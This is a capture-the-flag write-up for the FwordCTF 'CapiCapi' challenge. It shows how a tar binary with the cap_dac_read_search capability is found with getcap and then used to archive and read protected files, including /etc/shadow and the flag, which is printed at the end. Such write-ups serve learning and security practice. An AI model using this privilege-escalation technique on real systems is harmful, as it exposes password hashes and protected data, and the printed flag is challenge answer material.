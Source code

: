 # CapiCapi - bash

when connecting to the service i tried most of the common priv esc techniques but none worked however. After being triggered for hours because it wasn't sudo -l i read the briefing again. I then googled the briefing and after quite a bit of endless googling found something called linux capabilities that could be exploited. I ended up finding this website about it:

[https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

After running the check to see if this could be exploited on our system:

```text
user1@d963015da1fa:/$ getcap -r / 2>/dev/null    <-- command we run  
/usr/bin/tar = cap_dac_read_search+ep <-- our response
```

this shows the same thing as the website so we know it should be able to be exploited.

We see that the binary tar has the privelages to read anything on the file system.

We attempt the example on /etc/shadow just like in the website and then go on to do the same thing on the flag.txt file:

```text
user1@d963015da1fa:/tmp$ tar -cvf flag.tar /home/user1/flag.txt
tar: Removing leading `/' from member names
/home/user1/flag.txt
user1@d963015da1fa:/tmp$ tar -xvf flag.tar
```

We then go into the `/tmp/home/user1` directory and read the `flag.txt` file

## Flag: FwordCTF{C4pAbiLities\_4r3\_t00\_S3Cur3\_NaruT0\_0nc3\_S4id}

